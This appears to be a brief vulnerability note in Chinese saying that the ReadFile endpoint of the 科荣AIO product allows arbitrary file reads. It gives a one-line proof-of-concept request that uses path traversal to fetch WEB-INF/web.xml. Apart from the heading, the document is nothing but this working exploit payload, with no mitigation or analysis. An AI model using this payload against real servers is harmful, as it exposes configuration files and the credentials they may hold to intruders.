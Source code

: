 ## 科荣AIO-ReadFile存在任意文件读取漏洞


## poc
```
/ReadFile?tempFile=path&path=../../website/WEB-INF/&fileName=web.xml
```
